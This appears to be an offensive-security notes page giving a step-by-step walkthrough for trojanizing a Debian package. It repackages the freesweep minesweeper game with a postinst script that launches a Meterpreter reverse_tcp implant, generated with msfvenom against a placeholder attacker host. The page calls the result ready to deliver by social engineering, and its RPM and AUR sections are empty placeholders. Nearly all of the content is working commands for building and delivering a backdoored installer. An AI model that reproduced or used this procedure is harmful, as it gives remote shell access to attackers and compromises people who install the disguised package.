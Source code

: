 ```yaml
---
author(s):
  - Userware
tags:
  - initial-access
  - weaponization
  - client-side-attacks
  - metasploit-framework
  - linux
---
```

# Trojanized Software Package

> [!TIP]
> While the target will install the backdoored software package with elevated privileges. You can include other vectors such as, elevated persistence.

## 01 - DEB

Create a temporary directory.

```
userware@hackware-os:~$ cd $(mktemp -d)
```

Download a DEB package. We will use `freesweep` as an example.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt download freesweep

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ apt-get download freesweep
```

Extract the packing to a working directory then create a `DEBIAN` directory to include additional "features".

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ ls
freesweep_1.0.2-1_amd64.deb

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg -x freesweep_1.0.2-1_amd64.deb work

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ mkdir work/DEBIAN
```

> [!IMPORTANT]
> Do not skip this step.
> > [!TIP]
> > To copy the contents in `control` file then execute either `dpkg-deb -I file.deb` or `apt-cache show <package>` as reference.

In the `DEBIAN` directory, create a text file named `control` with the contents.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/control << EOF
Package: freesweep
Architecture: amd64
Version: 1.0.2-1
Priority: optional
Section: universe/games
Origin: Ubuntu
Maintainer: Ubuntu Developers <ubuntu-devel-discuss@lists.ubuntu.com>
Original-Maintainer: Debian Games Team <pkg-games-devel@lists.alioth.debian.org>
Description: text-based minesweeper
 Freesweep is an implementation of the popular minesweeper game, where
 one tries to find all the mines without igniting any, based on hints given
 by the computer.  Unlike most implementations of this game, Freesweep
 works in any visual text display - in Linux console, in an xterm, and in
 most text-based terminals currently in use.
EOF
```

Then create a post-installation script (`postinst`) that will trigger the implant.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ cat > work/DEBIAN/postinst << EOF
#!/bin/sh
sudo chmod 2755 /usr/games/freesweep_scores && /usr/games/freesweep_scores & /usr/games/freesweep &
EOF

userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ chmod 755 work/DEBIAN/postinst
```

Generate an implant for a reverse connection.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_IP> LPORT=<attacker_PORT> -f elf -o work/usr/games/freesweep_scores
```

Build the `.deb` package.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ dpkg-deb -b work trojanized_freesweep.deb
dpkg-deb: building package 'freesweep' in 'trojanized_freesweep.deb'.
```

Run `lintian` to check if there any problems to the software package. We're only concerned about the post installation script (`postinst`) and the implant (`freesweep_scores`) if there was an error (`E`). For the implant's `statically-linked-binary` error message is safe to ignore. Now the implant is ready to deliver for social engineering.

```
userware@hackware-os:/tmp/tmp.N7WqUfqiWd$ lintian -c trojanized_freesweep.deb 
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/README.md]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/]
E: freesweep: bad-owner-for-doc-file userware/userware != root/root (or 0/0) [usr/share/doc/freesweep/changelog.Debian.gz]
E: freesweep: bad-owner-for-doc-file ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
E: freesweep: file-in-etc-not-marked-as-conffile [etc/sweeprc]
E: freesweep: mail-address-loops-or-bounces Maintainer ubuntu-devel-discuss@lists.ubuntu.com
E: freesweep: statically-linked-binary [usr/games/freesweep_scores]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [etc/sweeprc]
E: freesweep: wrong-file-owner-uid-or-gid 1000/1000 [usr/]
E: freesweep: wrong-file-owner-uid-or-gid ... use "--tag-display-limit 0" to see all (or pipe to a file/program)
W: freesweep: elevated-privileges 2755 userware/userware [usr/games/freesweep]
W: freesweep: maintainer-script-ignores-errors [postinst]
W: freesweep: no-manual-page [usr/games/freesweep_scores]
W: freesweep: non-standard-file-perm 0664 != 0644 [usr/games/freesweep_scores]
W: freesweep: undeclared-elf-prerequisites (libc.so.6 libncurses.so.6 libtinfo.so.6) [usr/games/freesweep]
W: freesweep: unknown-section universe/games
```

To execute the implant to retrieve a connection from the shell handler.

```
$ sudo dpkg -i trojanized_freesweep.deb

$ sudo apt install ./trojanized_freesweep.deb
```

## 02 - RPM

TODO: Fill in the steps for the RPM package.

```

```

## 03 - AUR

TODO: Fill in the steps for the AUR package.

```

```

---
## References

### Backlinks

- [[Package File Templates]]

### Metasploit Unleashed

- [Metasploit Unleashed: Binary Linux Trojan](https://www.offsec.com/metasploit-unleashed/binary-linux-trojan/)
